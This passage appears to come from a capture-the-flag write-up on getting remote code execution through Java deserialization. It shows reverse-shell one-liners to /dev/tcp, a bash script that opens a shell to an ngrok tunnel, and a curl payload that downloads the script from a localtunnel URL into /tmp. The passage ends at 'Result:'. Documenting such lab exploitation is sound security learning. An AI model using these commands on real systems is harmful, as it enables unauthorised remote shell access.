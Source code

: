 ```java
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```
- The reason for this class is to actually create the serialized object (the code is already found in the PortSwigger github link above but I only changed the main code to make it call MissionDebug constructor by instantiating an instance of the class and doing the rest of the stuff that i will explain below)
- I tried many RCE payloads using bash from https://www.revshells.com/ such as `sh -i >& /dev/tcp/172.17.0.1/5000 0>&1`but none worked, not sure why exactly but probably because of the Java method used is not an actual Bash therefore such commands can't work
- I had to go with another approach by creating a shell file `.sh` with my RCE payload and upload it to the system using `curl` then uploading another payload to run it!
- Here is my **F30s.sh** file
```bash
#!/bin/bash

bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/13841 0>&1
```
- That ngrok link is a tcp tunnel I opened for the netcat to listen
- ![11.png](./assets/11.png)
- This way you can expose your IP/PORT that is behind a router to the world using ngrok to connect to your netcat
- I placed this .sh file in `/opt/lampp/htdocs` and started my php server with `sudo /opt/lampp/lampp start`
- With ngrok or [localtunnet](https://theboroer.github.io/localtunnel-www/) I started the server and created the first payload from the Main.java code above with this request first
```java
String req = "curl https://social-plums-juggle-86-108-21-39.loca.lt/shell.sh -o /tmp/F30s.sh"; // run first to download the shell
```
- Result: